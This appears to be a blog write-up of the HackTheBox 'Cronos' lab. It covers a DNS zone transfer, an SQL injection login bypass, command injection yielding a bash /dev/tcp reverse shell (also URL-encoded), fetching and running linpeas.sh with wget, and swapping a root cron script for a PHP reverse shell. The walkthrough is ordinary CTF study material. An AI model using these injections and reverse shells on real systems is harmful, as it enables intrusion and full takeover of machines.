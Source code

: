 ```yaml
---
title: Cronos Writeups - HackTheBox -
date: "2023-03-23T12:00:00.000Z"
template: "post"
draft: false
slug: "cronos-writes-up"
category: "Security"
tags:
  - "Security"
  - "HackTheBox"
description: "Writeups of Cronos machine in HackTheBox"
socialImage: "/media/cronos-writesup/cronos.png"
---
```


![cronos](/media/cronos-writesup/cronos.png)

This is a writes up of [Cronos](https://app.hackthebox.com/machines/Cronos) machine, which has a `medium` level.

1. [Enumeration](#enumeration)
2. [User Flag](#user-flag)
3. [Priviledge Escalation](#priviledge-escalation)

## Enumeration
`nmap` found 3 open ports, 22(SSH), 53(DNS), 80(HTTP).

![nmap](/media/cronos-writesup/nmap.png)

When I go to `10.10.10.13` in browser, I see the apache default page.

![apache](/media/cronos-writesup/apache_80.png)

I tries to check if there are any pages with `gobuster`, but doesn't find anything.

![gobuster_10101013](/media/cronos-writesup/gobuster_10101013.png)

It might be the case that I have to resolve ip with a domain.
`nslookup` finds `ns1.cronos.htb` domain.

![nslookup](/media/cronos-writesup/nslookup.png)

I learned DNS Zone Transfers in [Footprint module](https://academy.hackthebox.com/module/112/section/1069).
Since port `53` is opened, I try to find other domains. There is additionally `admin.cronos.htb` domain.

![zone_transfer](/media/cronos-writesup/zone_transfer.png)

Now I set these domains in `/etc/hosts` file to resolve these domains.
```
10.10.10.13 cronos.htb admin.cronos.htb ns1.cronos.htb
```

When I go to `cronos.htb` page, there is a webpage. However, there is nothing special.

![cronos.htb](/media/cronos-writesup/cronos_htb.png)

`gobuster` doesn't find any pages, either. 

![gobuster_cronos_htb](/media/cronos-writesup/gobuster_cronos_htb.png)

Now it's time to go to `admin.cronos.htb` page. There is a login page.
It can be the initial foothold.

![admin.cronos.htb](/media/cronos-writesup/admin_cronos_htb.png)

## User Flag
As the first attempt, I tries to do a basic sql injection.

![sql_injection](/media/cronos-writesup/sql_injection.png)

Surprisingly, it works. there is a page where I can execute `traceroute` command. 
But, when I click the `execute!` button, it doesn't show anything.

![admin_page](/media/cronos-writesup/admin_page.png)

Now it's time to use `Burpsuite`. I try to change the `command` parameter and make `host` parameter empty.

![burpsuite_ls](/media/cronos-writesup/burpsuite_ls.png)

It returns a file list. So, this endpoint has a `command injection vulnerability` so that I can execute shell commands by changing the request parameter.

![burpsuite_ls_result](/media/cronos-writesup/burpsuite_ls_result.png)

It's time to do a reverse shell. I use the command below. `10.10.16.2` is my machine ip address.
```
/bin/bash -i >& /dev/tcp/10.10.16.2/1234 0>&1
```

In order to execute the reverse shell command, the command needs to be url-encoded like this below.
```
%2Fbin%2Fbash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.16.2%2F1234%200%3E%261%0A
```

![burpsuite_reverse_shell](/media/cronos-writesup/burpsuite_reverse_shell.png)

I get the reverse shell!

![reverse_shell](/media/cronos-writesup/reverse_shell.png)

The shell is without TTY, so I spawn TTY shell. The detail about `Shell spawning` is written [here](https://rcenetsec.com/shell-spawning/).

![spawn_tty](/media/cronos-writesup/spawn_tty.png)

I'm a `www-data` user, but can read `user.txt`.

![user_txt](/media/cronos-writesup/user_txt.png)


## Priviledge Escalation
To find any hints for priviledge escalation, I use `linpeas.sh`.
I run a python server in the directory where `linpeas.sh` exists in my machine.
```
python3 -m http.server 80
```

Then, download and execute it in the target machine.
```
wget http://10.10.16.2/linpeas.sh
chmod +x linpeas.sh
bash linpeas.sh
```

`linpeas.sh` finds a cron job that executes `artisan` file with the root user.
This cron is executed every minute.

![crontab](/media/cronos-writesup/crontab.png)

`artisan` file is a php script.

![file_artisan](/media/cronos-writesup/file_artisan.png)

So, by replacing `artisan` file with a php reverse shell, I can get a root shell.
I download [php-reverse-shell.php](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) in my machine and change `$ip` into my machine and `$port` into `9999`.
Now download the php reverse shell in the target machine and rename it into `artisan`.

![download_artisan](/media/cronos-writesup/download_artisan.png)

When the cron executes `artisan` file, I get a root shell!

![get_root](/media/cronos-writesup/get_root.png)

